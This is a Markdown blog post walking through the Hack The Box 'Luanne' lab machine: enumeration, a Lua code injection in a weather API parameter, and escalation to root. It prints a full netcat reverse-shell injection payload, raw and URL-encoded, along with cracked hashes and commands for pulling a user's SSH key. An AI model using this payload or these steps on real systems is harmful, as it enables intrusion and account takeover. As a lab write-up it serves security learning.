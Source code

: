 ```yaml
---
layout: post
title:  "Launne Walkthrough"
date:   2021-03-27 
categories: blog
layout: post
---
```

# Luanne Walkthrough
![](https://i.ibb.co/wJw8Kzj/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

<!--more-->

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://i.ibb.co/xXfkxYT/image.png)


### Let's start with the Web Page:

![](https://i.ibb.co/1GYkMLC/image.png)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://i.ibb.co/87bbn0b/image.png)


> #### I used ffuf for fuzzing luanne.htb/


![](https://i.ibb.co/bdWykc8/image.png)



* We got robots.txt

![](https://i.ibb.co/mTQCjQq/image.png)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://i.ibb.co/R2pH0fq/image.png)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://i.ibb.co/cJXyHr9/image.png)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://i.ibb.co/g7bGCMX/image.png)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://i.ibb.co/dgQVN9S/image.png)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://i.ibb.co/1JXzdwC/image.png)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://i.ibb.co/C854hrM/image.png)

**we got iamthebest**

## Enumerate luanne.


![](https://i.ibb.co/8M8vYqx/image.png)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://i.ibb.co/pLd3JPM/image.png)

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![](https://i.ibb.co/r00s2W3/image.png)


![](https://i.ibb.co/HTDXSZx/image.png)

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![]()

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![]()

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![]()


## SSH connecting.


![]()

![]()

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![]()

> * we access to /webapi but no thing useful.


![]()

> **we access to /www and got another webapi_user.**
 
![]()

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![]()

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![]()

# RooTed



